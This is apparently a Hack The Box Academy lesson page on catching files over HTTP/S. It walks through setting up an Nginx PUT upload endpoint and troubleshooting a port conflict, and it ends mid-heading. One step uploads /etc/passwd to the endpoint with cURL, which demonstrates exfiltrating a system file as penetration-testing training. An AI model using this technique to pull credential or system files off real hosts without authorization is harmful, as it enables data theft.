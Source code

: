 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/24/section/681
// Platform Version: V1
// Module ID: 24
// Module Name: File Transfers
// Module Difficulty: Medium
// Section ID: 681
// Section Title: Catching Files over HTTP/S
// Page Title: File Transfers
// Page Number: 07
-->

# Catching Files over HTTP/S

**Module Name:** File Transfers **Page Number:** 07

#### FILE TRANSFERS

# Catching Files over HTTP/S

## HTTP/S

## Nginx - Enabling PUT

#### Create a Directory to Handle Uploaded Files

``` shell-session
[!bash!]$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

#### Change the Owner to www-data

``` shell-session
[!bash!]$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

#### Create Nginx Configuration File

``` shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

#### Symlink our Site to the sites-enabled Directory

``` shell-session
[!bash!]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

#### Start Nginx

``` shell-session
[!bash!]$ sudo systemctl restart nginx.service
```

#### Verifying Errors

``` shell-session
[!bash!]$ tail -2 /var/log/nginx/error.log

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:`80` failed (98: A`ddress already in use`)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()
```

``` shell-session
[!bash!]$ ss -lnpt | grep 80

LISTEN 0      100          0.0.0.0:80        0.0.0.0:*    users:(("python",pid=`2811`,fd=3),("python",pid=2070,fd=3),("python",pid=1968,fd=3),("python",pid=1856,fd=3))
```

``` shell-session
[!bash!]$ ps -ef | grep 2811

user65      2811    1856  0 16:05 ?        00:00:04 `python -m websockify 80 localhost:5901 -D`
root        6720    2226  0 16:14 pts/0    00:00:00 grep --color=auto 2811
```

#### Remove NginxDefault Configuration

``` shell-session
[!bash!]$ sudo rm /etc/nginx/sites-enabled/default
```

#### Upload File Using cURL

``` shell-session
[!bash!]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

``` shell-session
[!bash!]$ sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 

user65:x:1000:1000:,,,:/home/user65:/bin/bash
```

## Using Built-in Tools

####